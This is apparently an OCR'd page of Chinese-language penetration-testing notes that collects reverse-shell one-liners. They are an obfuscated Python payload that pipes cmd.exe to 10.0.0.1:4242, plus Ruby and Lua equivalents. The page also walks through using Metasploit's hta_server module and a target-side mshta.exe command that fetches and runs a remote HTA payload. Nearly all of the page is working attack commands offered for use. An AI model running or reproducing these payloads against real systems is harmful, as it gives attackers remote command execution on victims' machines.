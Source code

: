 ```powershell
C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('10.0.0.1', 4242)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"
```

**ruby**
```ruby
ruby -rsocket -e 'c=TCPSocket.new("10.0.0.1","4242");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

**lua**
```powershell
lua5.1 -e 'local host, port = "10.0.0.1", 4242 local socket = require("socket") local tcp = socket.tcp() local io = require("io") tcp:connect(host, port); while true do local cmd, status, partial = tcp:receive() local f = io.popen(cmd, "r") local s = f:read("*a") f:close() tcp:send(s) if status == "closed" then break end end tcp:close()'
```

**Mshta.exe**

Mshta.exe 运行 Microsoft HTML 应用程序主机，这是 Windows OS 实用程序，负责运行 HTA（HTML 应用程序）文件。可以用来运行 JavaScript 或 VBScript 的 HTML 文件。

Metasploit 包含“ HTA Web服务器”模块，该模块会生成恶意的 hta 文件。该模块托管一个 HTML 应用程序（HTA），该应用程序在打开时将通过 Powershell 运行有效负载。当用户导航到 HTA 文件时，在 Payload 执行之前 IE 会提示两次。

攻击端
```bash
use exploit/windows/misc/hta_server
set srvhost 192.168.1.109
set lhost 192.168.1.109
exploit
```
目标端
```cmd
mshta.exe http://192.168.1.109:8080/5EEiDSd70ET0k.hta
```
